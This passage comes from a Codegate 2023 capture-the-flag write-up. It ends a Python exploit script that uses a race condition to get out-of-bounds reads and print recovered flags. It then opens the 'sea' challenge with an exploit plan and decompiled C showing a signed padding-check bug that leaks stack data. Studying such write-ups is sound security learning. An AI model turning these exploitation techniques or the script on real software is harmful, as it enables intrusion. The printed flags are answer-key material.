 ```python
    write_reg0_idx(0, 10),
    # if x0 is first fetched, and sleep, and then released, released buffer is rewritten
    alloc_list(3), # now new buffer allocation gives OOB access
    dump_regs(), # ensure alloc is commited before any idx R/W
]

for i in range(0, 78):
    prog.append(read_reg_idx(2, 3, i))
    prog.append(dump_regs())

send_insts(prog)

flag = []
sh.recvuntil(b"X2 : 0x")
for i in range(0, 78):
    sh.recvuntil(b"X2 : 0x")
    flag.append(int(sh.recvuntil(b"\n"), 16))
    if flag[0] != ord('c'):
        exit(1)
    print(len(flag), b"".join(map(lambda x: bytes([x]), flag)))

sh.interactive()

# codegate2023{a77f1e5998a7d38c0e1f77274a344f142a7ff9d167e1419d41d6489fb138bb45}
# codegate2023{a77f1e5998a7d38c0e1f77274a344f142a7ff9d167e1419d41d6489fb138b044}
```

Due to race condition, we need to run it for several times in order to be able to achieve the scenario we want. In addition, due to the same race condition problem, we sometimes get the wrong flag because for some bytes the `X2` is printed before it is loaded with the flag content, but this can be easily fixed manually by comparing flags from different runs.

## sea

### 0x00 Overview

The program implements a simple AES-CBC encryption and decryption service, with `key` and `iv` being randomly generated and unknown to us. However, after each decryption the `key` and `iv` are re-generated. There are three vulnerabilities in the program: we firstly leak the pointers and canary via an out-of-bounds read in decryption; we then use a data segment overflow in the hexadecimal parser to rewrite the constants used by AES, so that `key` and `iv` can be leaked; finally, a stack overflow filled with encrypted data is exploited to get the code execution.

### 0x01 OOB Read to Leak Stack Data

In decryption, the function `0x15A1` is called to unpad the decrypted data. However, the sign of the padding byte is used incorrectly, which causes the problem when padding byte is larger than `0x7f` (e.i., being negative when used as signed char). The problem is shown in the code snippet below.

```c
if ( (char)last_byte <= 16 && len ) // signed comparison, so negative byte can pass the check
{
  while ( last_byte > i ) // unsigned comparison
  {
    if ( src[(unsigned int)last_idx - i] != last_byte ) // unsigned subtraction
      return -1;
    ++i;
  }
  memset(dst, 0, len);
  v12 = len - (char)last_byte; // signed subtraction, so a negative byte can increase the length!
  result = 0;
  *new_len = v12;
  qmemcpy(dst, src, v12);
}
```